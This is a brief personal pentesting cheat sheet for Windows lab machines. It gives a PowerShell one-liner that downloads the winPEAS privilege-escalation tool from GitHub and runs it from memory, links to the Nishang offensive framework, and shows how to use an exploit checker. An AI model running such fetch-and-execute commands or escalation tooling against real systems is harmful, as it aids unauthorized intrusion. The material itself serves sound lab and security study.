 ```yaml
---
layout: single
classes: #wide
title: "Windows Boxes"
sidebar:
    title: "Windows Boxes"
    nav: infosec
collection: infopages
permalink: /infosec/windows/
toc: true
toc_sticky: true
author_profile: true
---
```


# Powershell
`powershell -c "Command"`  
`Get-ChildItem -Path . *.txt -Recurse` - search for file (this case .txt)


# Winpeas
[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `   

less -r file (make color coded for viewing output file of winpeas)

# Nishang
contains: 
* execution
* excalation
* backdoors
* bypass
* Scans
* shells
* and more (website [here](https://github.com/samratashok/nishang))

# wes - exploit checker for win
`systeminfo > txt`  
`wes txt` -   [site](https://github.com/bitsadmin/wesng)



